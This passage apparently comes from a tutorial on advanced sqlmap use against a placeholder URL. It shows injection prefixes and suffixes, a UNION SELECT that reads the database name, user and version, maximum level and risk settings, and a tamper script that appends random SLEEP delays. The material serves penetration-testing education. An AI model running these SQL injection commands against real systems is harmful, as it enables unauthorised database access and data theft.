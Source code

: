 ```
sqlmap -u "http://example.com/vulnerable.php?id=1" --prefix="' OR 1=1; /*" --suffix="*/ --"
```

## Using SQLMap's `--eval` Option

The `--eval` option allows for evaluating Python code before sending requests, which can be used for dynamic payload generation.

### Example: Dynamic Payload Generation with `--eval`

**Dynamic Generation**

Generate a dynamic payload using Python code:

```
sqlmap -u "http://example.com/vulnerable.php?id=1" --eval="import random; id=random.randint(1,10)"
```

## Combining Techniques for Automated Testing

You can combine multiple techniques for comprehensive automated testing.

### Example: Full Automated Test with Custom Payloads

**Advanced Custom Payloads in Combination**

Combine various methods to create a comprehensive testing command:

```
sqlmap -u "http://example.com/vulnerable.php?id=1" \
   --sql-query="UNION SELECT null, database(), user(), version()" \
   --tamper=random_comment_tamper \
   --prefix="' OR 1=1; /*" \
   --suffix="*/ --" \
   --level=5 --risk=3
```

## Example of an Advanced Tamper Script for Automated Testing

### Example: Randomized Time-Based Injection

Create a script `random_time_tamper.py`:

```
#!/usr/bin/env python

import random

__priority__ = 1

def dependencies():
    pass

def tamper(payload):
    """
    Adds a random time-based delay to the payload
    """
    if payload:
        delay = random.randint(1, 10)
        payload = payload.replace(" ", "/**/") + f" AND SLEEP({delay})"
    return payload
```
